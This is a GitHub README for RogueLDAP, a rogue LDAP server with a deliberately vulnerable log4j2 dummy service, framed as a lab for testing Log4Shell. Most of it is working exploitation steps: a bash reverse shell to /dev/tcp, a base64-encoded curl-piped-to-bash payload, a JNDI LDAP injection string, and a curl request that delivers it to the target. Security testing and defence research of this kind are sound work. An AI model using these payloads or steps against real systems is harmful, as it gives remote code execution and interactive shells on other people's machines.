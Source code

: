 ## RogueLDAP

------------

This is a lightweight ```RogueLDAP``` server which is a modified version of the  [JNDIExploit-1](https://github.com/gysf666/JNDIExploit-1).

### clone the repo 

```
git clone https://github.com/twelvesec/RogueLDAP.git
```

### Build with Maven

In order to build the ```RogueLDAP``` server run the following commands 

```
cd RogueLDAP/RogueLDAP
mvn clean package
```

## logging-log4j2

------------

The ```logging-log4j2``` is a vulnerable dummy web service which only logs a user supplied string value. This application created for testing purposes in order to test the ```Log4Shell``` vulnerability using the ```RogueLDAP``` server.  

### Build with Docker

From cli run the following command to build the ```logging-log4j2``` application 

```
cd RogueLDAP/logging-log4j2
mvn clean install
docker build -f Dockerfile -t logging-log4j2-vuln .
```

### Build with Maven

```
cd RogueLDAP/logging-log4j2
mvn clean package  
```

## Setting up the Environment and run the Exploit

In order to setup the environment and run the exploit the following steps should be followed 

1. Open a new terminal window and run the ```RogueLDAP``` server at the attacking machine

```
cd RogueLDAP/RogueLDAP/target
java -jar RogueLDAP-1.4-SNAPSHOT.jar -i <YOUR-IP-ADDRESS>
```

2. Open a new terminal window and run the vulnerable ```logging-log4j2``` application at the target machine


### Run with Docker 

```
docker run -p 8080:8080 logging-log4j2-vuln
```

### Run with Java 

```
cd RogueLDAP/RogueLDAP/target
java -Dlog4j2.contextSelector=org.apache.logging.log4j.core.async.AsyncLoggerContextSelector -jar logging-log4j2-1.0.jar

```

3. create a folder called shells at a preffered location at the attacking machine

```
mkdir shells 
cd shells 
```

4. Inside the shells folder create an ```index.html``` file 

```
touch index.html 
```

5. Inside the ```index.html``` file put the following payload and change the IP address to the one that suits to your environment

``` 
/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.1.6/8082 0>&1" &
``` 

6. convert the payload ```$(curl 192.168.1.6:8085|bash)``` in base64 format as seen below (change the IP address with the one that suits to your environment) 

```
JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=
```

7. In order to perform a JNDI LDAP query the following payload will be used (change the IP address with the one that suits to your environment) 

```
${jndi:ldap://192.168.1.6:6389/JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=}
``` 

7. Now open a new terminal window and inside the shells directory run the following command in order to start a python simple HTTP server

```
cd shells 
python3 -m http.server 8085
```

8. Now that the ```logging-log4j2``` application runs, open a new terminal window and run the ```curl``` command line tool in order to send the jndi payload as shown below 
(change the IP address with the one that suits to your environment) 

```
curl -s -X POST http://192.168.1.6:8080/lol -H "Content-type:application/json" -d "{\"vuln\":\"\${jndi:ldap://192.168.1.6:6389/JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=}\"}"
```

------------

### PoC

The full log4shell exploitation can be seen below  

![alt text](https://github.com/twelvesec/RogueLDAP/blob/main/images/log4shell-expl.gif)


------------




